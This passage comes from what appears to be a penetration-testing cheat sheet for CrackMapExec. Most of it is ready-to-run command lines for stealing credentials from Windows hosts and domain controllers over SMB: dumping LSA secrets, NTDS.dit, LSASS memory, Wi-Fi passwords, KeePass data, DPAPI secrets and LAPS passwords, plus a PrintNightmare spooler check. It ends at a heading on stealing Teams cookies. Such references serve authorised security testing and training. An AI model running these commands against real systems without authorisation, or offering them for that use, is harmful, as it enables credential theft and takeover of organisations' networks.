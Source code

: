    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --lsa
    ```
*   **Dump NTDS.dit:** Requires Domain Admin or Local Admin Privileges on target Domain Controller

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --ntds
    crackmapexec smb <target_ip> -u <username> -p '<password>' --ntds --users
    crackmapexec smb <target_ip> -u <username> -p '<password>' --ntds --users --enabled
    crackmapexec smb <target_ip> -u <username> -p '<password>' --ntds vss
    ```
*   **Dump LSASS Using Lsassy:** You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M lsassy
    ```
*   \*\*Dump LSASS Using nanodump:\*\*You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M nanodump
    ```
*   **Dump WIFI Password:** You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M wireless
    ```
*   **Dump KeePass:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M keepass_discover
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discovery"
    ```
*   **Dump DPAPI:** You need at least local admin privilege on the remote target, use option `--local-auth` if your user is a local account

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --dpapi
    ```
*   **Defeating LAPS:** If LAPS is used inside the domain, it can be hard to use CrackMapExec to execute a command on every computer on the domain. Therefore, a new core option has been added `--laps`! If you have compromised an account that can read

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' --laps
    ```
*   **Print Nightmare Spooler, WebDav Check:** If enabled, run @cube0x0 or Mimikatz from @gentilkiwi to gain SYSTEM on workstations/servers up to date

    ```bash
    crackmapexec smb <target_ip> -u <user_name> -p '<password>' -M spooler
    ```
*   **Steal Microsoft Teams Cookies:** You need at least local admin privilege on the remote target
